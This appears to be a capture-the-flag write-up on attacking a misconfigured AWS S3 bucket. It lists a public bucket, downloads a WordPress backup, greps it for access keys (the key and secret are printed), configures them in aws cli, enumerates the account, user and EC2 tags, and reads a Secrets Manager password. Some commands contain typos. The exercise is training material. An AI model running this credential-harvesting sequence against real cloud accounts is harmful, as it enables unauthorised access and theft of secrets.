 # s3 bucket aws attacks 

1. u get an img  [https://s3.amazonaws.com/images.bestfestivalcompany.com/flyer.png]

2. https://s3.amazonaws.com/images.bestfestivalcompany.com 
- intersting 
```xml
<Key>flag.txt</Key>
<LastModified>2021-11-13T15:06:51.000Z</LastModified>
<ETag>"6f612c089ef7289bade62611b99ecbdf"</ETag>
<Size>68</Size>
<StorageClass>STANDARD</StorageClass>
``` 


3. https://s3.amazonaws.com/images.bestfestivalcompany.com/flag.txt 

```
It's easy to get your elves data when you leave it so easy to find!
```

4. using aws cli 
```bash
aws s3 ls s3://images.bestfestivalcompany.com  --no-sign-request
```

result 
```language
2021-11-13 15:06:51       6148 .DS_Store
2021-11-13 12:43:03     108420 0vF39p3.png
2021-11-27 11:55:21     705191 AWSConsole.png
2021-11-13 12:43:03       5652 aws-logo.png
2021-11-13 15:06:51         68 flag.txt
2021-11-13 15:06:51    2349068 flyer.png
2021-11-13 12:43:03      92531 presents.jpg
2021-11-13 12:43:03       4680 tree.png
2021-11-23 23:52:22   16556739 wp-backup.zip
```

Download it 
```bash
aws s3 cp s3://images.bestfestivalcompany.com/wp-backup.zip . --no-sign-request
```

5. What is the AWS Access Key ID in that file?
```bash
grep -R AKIA #from the hint 	
grep -R SECRET # from the AWS IAM presentation we will need it to fill config
```
Result 
```bash
wp-config.php:define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');
wp-config.php:define('S3_UPLOADS_SECRET', 'Y+2fQBoJ+X9N0GzT4dF5kWE0ZX03n/KcYxkS1Qmc');
#wp-config-sample.php:define('S3_UPLOADS_SECRET', 'AOCSECRETKEY'); 
```

6. What is the AWS Account ID that access-key works for?
Crea
```bash
aws configure --profile hr #create a profile name hr
```
input 
```bash
AWS Access Key ID [None]: AKIAQI52OJVCPZXFYAOI
AWS Secret Access Key [None]: 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
Default region name [None]:us-east-1 #u will need it in instances
Default output format [None]: #none 
```

Get the acc id 
```bash
aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile hr
```
Result 
```json
{
    "Account": "019181489476"
}
```

7. What is the Username for that access-key?

>Determining the Username the access key you're using belongs to
>aws sts get-caller-identity --profile PROFILENAME

```bash
aws sts get-caller-identity --profile hr
```

Result 
```bash
{
    "UserId": "AIDAQI52OJVCFHT3E73BO",
    "Account": "019181489476",
    "Arn": "arn:aws:iam::019181489476:user/ElfMcHR@bfc.com"
}
```
answer : **ElfMcHR@bfc.com**

8. There is an EC2 Instance in this account. Under the TAGs, what is the Name of the instance?

>Listing all the EC2 instances running in an account
>aws ec2 describe-instances --output text --profile PROFILENAME

```bash
aws ec2 describe-instances --output text --profile hr
```
Result of tags 
```bash
STATEREASON     Client.UserInitiatedShutdown    Client.UserInitiatedShutdown: User initiated shutdown
TAGS    aws:cloudformation:stack-id     arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7
TAGS    aws:cloudformation:logical-id   Instance
TAGS    created_by      Elf McHR
TAGS    aws:cloudformation:stack-name   HR-Portal
TAGS    Name    HR-Portal
```

9. What is the database password stored in Secrets Manager?

> aws secretsmanager help < in hints 
> aws secretsmanager list-secrets

```bash
aws secretsmanager list-secrets --profile test
```
Result 
```json
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:HR-Password-8AkWYF",
            "Name": "HR-Password",
            "Description": "Portal DB Secret",
            "LastChangedDate": 1637717347.812,
            "LastAccessedDate": 1639699200.0,
            "Tags": [
                {
                    "Key": "aws:cloudformation:stack-name",
                    "Value": "HR-Portal"
                },
                {
                    "Key": "aws:cloudformation:logical-id",
                    "Value": "FalseSecret"
                },
                {
                    "Key": "aws:cloudformation:stack-id",
                    "Value": "arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7"
                },
                {
                    "Key": "created_by",
                    "Value": "Elf McHR"
                },
                {
                    "Key": "Name",
                    "Value": "Payroll"
                }
            ],
            "SecretVersionsToStages": {
                "70630b3c-4fbe-4a24-885d-18445bd808b1": [
                    "AWSCURRENT"
                ],
                "a702190e-69f7-4a8a-81fd-3d20b486657a": [
                    "AWSPREVIOUS"
                ]
            },
            "CreatedDate": 1636807016.521
        }
    ]
}
```

secret name **HR-Password**

```bash
aws secretsmanager get-secret-value --secret-id HR-Password --profile test
```
resul 
```bash
{
    "ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:HR-Password-8AkWYF",
    "Name": "HR-Password",
    "VersionId": "70630b3c-4fbe-4a24-885d-18445bd808b1",
    "SecretString": "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives.", # we gotta change our REGION in config i guess 
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1637717347.718
}
```
 

```bash
aws secretsmanager get-secret-value --secret-id HR-Password --profile test --regien eu-noth-1 
```
result 
```bash
"ARN": "arn:aws:secretsmanager:eu-north-1:019181489476:secret:HR-Password-8AkWYF",
    "Name": "HR-Password",
    "VersionId": "70630b3c-4fbe-4a24-885d-18445bd808b1",
    "SecretString": "winterr2021!", # answer 
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 162712327.712
}
```
and u get the password **winterr2021!**
